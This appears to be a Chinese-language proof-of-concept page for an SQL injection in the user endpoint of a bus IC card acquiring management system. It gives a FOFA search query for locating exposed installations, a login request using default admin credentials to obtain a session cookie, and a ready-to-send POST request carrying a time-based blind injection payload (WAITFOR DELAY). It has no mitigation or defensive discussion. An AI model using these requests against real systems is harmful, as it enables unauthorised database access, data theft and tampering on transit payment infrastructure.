# 公交IC卡收单管理系统user存在SQL注入漏洞

公交IC卡收单管理系统user存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="公交IC卡收单管理系统"
```

## poc

获取cookie

```javascript
POST /login HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest

username=admin&password=e10adc3949ba59abbe56e057f20f883e
```

```javascript
POST /user HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

_search=false&nd=1727245865182&rowCountPerPage=10&pageNo=1&sidx=USER_NAME&sord=asc&method=select&USER_NAME=1');WAITFOR DELAY '0:0:5'--&REAL_NAME=1&ACCOUNT_EXPIRE_TIME=%E5%BF%BD%E7%95%A5&PASSWORD_EXPIRE_TIME=%E5%BF%BD%E7%95%A5
```

![image-20240926102454314](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409261024373.png)